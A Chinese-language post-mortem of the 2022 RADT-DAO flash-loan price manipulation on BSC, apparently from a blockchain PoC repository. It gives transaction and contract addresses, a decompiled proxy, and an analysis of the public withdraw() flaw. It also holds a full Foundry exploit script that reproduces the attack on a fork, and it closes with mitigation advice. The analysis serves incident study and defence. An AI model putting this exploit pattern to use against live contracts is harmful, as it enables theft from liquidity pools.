



# RADT-DAO@flashloan@priceManipulation

## 事件背景

池子[PancakeSwap V2: BSC-USD-RADT-DAO]被价格操纵，并且发现可以价格操纵的人被黑吃黑抢跑。

- 时间：2022.09.23
- 损失金额：$94,238.5

## 交易

- 4笔抢跑
  - 抢跑成功：[0xd692f71de2768017390395db815d34033013136c378177c05d0d46ef3b6f0897](https://bscscan.com/tx/0xd692f71de2768017390395db815d34033013136c378177c05d0d46ef3b6f0897)
  - 抢跑失败：[0xb8ddbd4b585892c435ae10335a465c78e180314b8a1f777ffa014d8f9369d710]()
  - 抢跑失败：[0xacc1163a673b9ec6f06fa16b8ba1df430d430d8aa8729fe25660cb8f6167e07a](https://bscscan.com/tx/0xacc1163a673b9ec6f06fa16b8ba1df430d430d8aa8729fe25660cb8f6167e07a)
  - 发现可以进行价格操纵的、被抢跑的交易：[0xe4f697883c2963eda98245bf25ad4613b5f0bf623253ff886066a6dd37dc36f6](https://bscscan.com/tx/0xe4f697883c2963eda98245bf25ad4613b5f0bf623253ff886066a6dd37dc36f6)
- [BSC-USD, RADT-DAO]池子：[0xaF8fb60f310DCd8E488e4fa10C48907B7abf115e](https://bscscan.com/address/0xaf8fb60f310dcd8e488e4fa10c48907b7abf115e)
- RADT-DAO代币地址：[0xDC8Cb92AA6FC7277E3EC32e3f00ad7b8437AE883](https://bscscan.com/address/0xdc8cb92aa6fc7277e3ec32e3f00ad7b8437ae883)
- RADT-DAO代币的`_wrap`（未开源，存储合约）：[0x01112eA0679110cbc0ddeA567b51ec36825aeF9b](https://bscscan.com/address/0x01112ea0679110cbc0ddea567b51ec36825aef9b)
- RADT-DAO代币的`_wrap`的逻辑合约（未开源，逻辑合约）：[0x9122191d7B2CCF11a2600de4eafD6b8cD3D03a62](https://bscscan.com/address/0x9122191d7b2ccf11a2600de4eafd6b8cd3d03a62)

## 资金流向



## 攻击过程



## 攻击详细分析

1.黑客用闪电贷得到243673个BSC-USD

2.操纵价格的核心：`withdraw()`使得池子价格变动。我们来详细分析一下这个RADT-DAO代币的调用逻辑：

2.1反编译`_wrap`得到：调用RADT-DAO合约的函数，都会delegatecall到另外一个合约的代码，可以知道`_wrap`合约是一个存储合约，实际逻辑写在其他合约。

```solidity
function __function_selector__() public nonPayable { 
    CALLDATACOPY(0, 0, msg.data.length);
    v0 = ___function_selector__.delegatecall(MEM[0 len msg.data.length], MEM[0 len 0]).gas(msg.gas);
    require(v0, 0, RETURNDATASIZE()); // checks call status, propagates error data on error
    return MEM[0 len (RETURNDATASIZE())];
}
```

2.2随便找一个`_wrap`的交易，就可以找到它的[逻辑合约](https://bscscan.com/address/0x9122191d7b2ccf11a2600de4eafd6b8cd3d03a62)，也没有开源，对它进行反编译。查看它的`withdraw()`，发现又臭又长，可以总结出一些特点：

- 是用`call()`来发送资产的
- 每次withdraw之前，都会到池子中获取价格
- 根据规则和条件，给一些地址发送RADT-DAO代币，似乎这些地址是手续费的地址，是一系列地址，或多或少



2.3猜测：这个`withdraw()`像是专门给项目方调用的，提取手续费，设置为public也不怕，获得手续费的规则写好在`withraw()`里面了，应该是根据情况给项目方不同员工的地址转钱。逻辑是池子的交易量越大，或者价格越高等啥因素，使得项目方计算出来的手续费就越多。黑客手动帮他们提取手续费，池子中的RADT-DAO就更少了，那么黑客手中的RADT-DAO也就越值钱，重新在池子中换回BSC-USD就更多，从而获利。

3.价格操纵后，换回BSC-USD，得到337977个，获利：337977 - 243673 = 94,304个。

## 复现

[GitHub](https://github.com/chen4903/BlockChainPoC/tree/master)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract ContractTest is Test {

    // 代币
    IERC20 BSC_USD = IERC20(0x55d398326f99059fF775485246999027B3197955);
    IERC20 RADT = IERC20(0xDC8Cb92AA6FC7277E3EC32e3f00ad7b8437AE883);
    // 池子：手动更新池子价格
    IUni_Pair_V2 pair = IUni_Pair_V2(0xaF8fb60f310DCd8E488e4fa10C48907B7abf115e);
    // 存储合约，用来调用withdraw
    IStorageContract storageContract = IStorageContract(0x01112eA0679110cbc0ddeA567b51ec36825aeF9b);
    // 闪电贷
    address getFlashloan = 0xDa26Dd3c1B917Fbf733226e9e71189ABb4919E3f;
    // router：用于swap
    IUni_Router_V2 Router = IUni_Router_V2(0x10ED43C718714eb63d5aA57B78B54704E256024E);

    uint256 public constant FLASHLOAN_AMOUNT = 243673213068049612594655;

    function setUp() public {
        vm.createSelectFork("bsc", 21_572_418);
    }

    function testExploit() public {
        emit log_named_decimal_uint("[before] Attacker BSC_USD balance", BSC_USD.balanceOf(address(this)), 18);

        // 为两次swap做准备
        BSC_USD.approve(address(Router), ~uint256(0));
        RADT.approve(address(Router), ~uint256(0));

        IGetFlashloan(getFlashloan).flashLoan(0, FLASHLOAN_AMOUNT, address(this), new bytes(1));

        emit log_named_decimal_uint("[after pay back flashloan] Attacker BSC_USD balance", BSC_USD.balanceOf(address(this)), 18);
    }

    // 闪电贷回调
    function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
        emit log_named_decimal_uint("[get flashloan] Attacker BSC_USD balance", BSC_USD.balanceOf(address(this)), 18);

        // 价格操纵前买入RADT
        buyRADT();

        // 不写会报[FAIL. Reason: the price of coin is low],这是在withdraw取款的时候报错
        // 给池子发送1个BSC-USD，抬高一点RADT代币的价格，使得withdraw满足条件可以调用
        BSC_USD.transfer(address(pair), 1);
        
        uint256 amount = 89806000000000000000000;

        // 操纵价格
        storageContract.withdraw(address(0x68Dbf1c787e3f4C85bF3a0fd1D18418eFb1fb0BE), address(pair), amount);
        pair.sync();

        // 价格操纵后卖出RADT
        sellRADT();

        emit log_named_decimal_uint("[after attack] Attacker BSC_USD balance", BSC_USD.balanceOf(address(this)), 18);

        // 闪电贷还款
        BSC_USD.transfer(address(getFlashloan), FLASHLOAN_AMOUNT);
    }

    function buyRADT() public {
        address[] memory path = new address[](2);
        path[0] = address(BSC_USD);
        path[1] = address(RADT);
        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            1000 * 1e18, 0, path, address(this), ~uint256(0)
        );
    }

    function sellRADT() public {
        address[] memory path = new address[](2);
        path[0] = address(RADT);
        path[1] = address(BSC_USD);
        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            RADT.balanceOf(address(this)), 0, path, address(this),~uint256(0)
        );
    }
}
```

## 建议

- 手续费的领取不应该使得池子的价格变动
- 应该让项目方自己来领取，不应该任何人都可以调用`withdraw()`帮项目方领取手续费


